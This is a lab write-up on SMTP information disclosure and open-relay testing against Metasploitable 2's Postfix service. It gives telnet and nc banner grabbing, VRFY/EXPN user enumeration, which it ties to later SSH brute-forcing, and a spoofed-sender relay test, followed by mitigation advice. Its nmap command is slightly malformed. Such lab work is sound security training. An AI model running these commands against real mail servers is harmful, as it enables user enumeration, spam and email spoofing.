



# SMTP - Open Relay & Information Disclosure

### Service Overview

SMTP (Simple Mail Transfer Protocol) is a protocol used to send emails between servers. On Metasploitable 2, Postfix SMTP server runs on port 25, and it's vulnerable to unauthenticated information disclosure and potential open relay, which may allow spamming or email spoofing.

---

## Vulnerability Overview

- **Name:** SMTP Information Disclosure / Open Relay
- **CVE:** None specific — general misconfiguration
- **Impact:** Leakage of system information, user enumeration, potential email abuse
- **Access Required:** None (unauthenticated)
- **Attack Type:** Information Disclosure / Misconfiguration Exploit

```
While Metasploitable 2's SMTP server is not vulnerable to remote code execution, it leaks valuable system data through the SMTP banner and VRFY/EXPN commands.
```
---

## Service Detection and Enumeration

```bash
sudo nmap -sV -v -p <target_ip>
```



Check for SMTP banner and VRFY command support:

```bash
telnet <target_ip> 25
```

Once connected: 

```bash
HELO attacker.com
VRFY root
VRFY msfadmin
EXPN postmaster
```

If VRFY returns valid results, you can enumerate users.

---

## Exploitation

#### 1. Banner Grabbing:

```bash
nc <target_ip> 25
```



#### 2. User Enumeration

```bash
telnet <target_ip> 25
```

```bash
VRFY msfadmin
VRFY postgres
VRFY user
```
Successful results confirm valid users for further attacks (e.g., brute-force via SSH).



#### 3. Testing for Open Relay

Try to send an email using spoofed headers.

```smtp
MAIL FROM:<attacker@example.com>
RCPT TO:<victim@external.com>
DATA
Subject: Hello
This is a test
.
```


---

## Results

- Discovered SMTP banner disclosing system info and software
- Used `VRFY` to enumerate valid local users (e.g., `msfadmin`,`postgres`)
- Open relay not fully exploitable, but testing validates risk of misconfiguration

---

## Mitigation

- Disable `VRFY` and `EXPN` commands in the Postfix configuration
- Monitor SMTP traffic for anomalies or abuse attempts
- Sanitize banner messages to avoid leaking server metadata
- Restrict access to SMTP port 25 using firewall rules

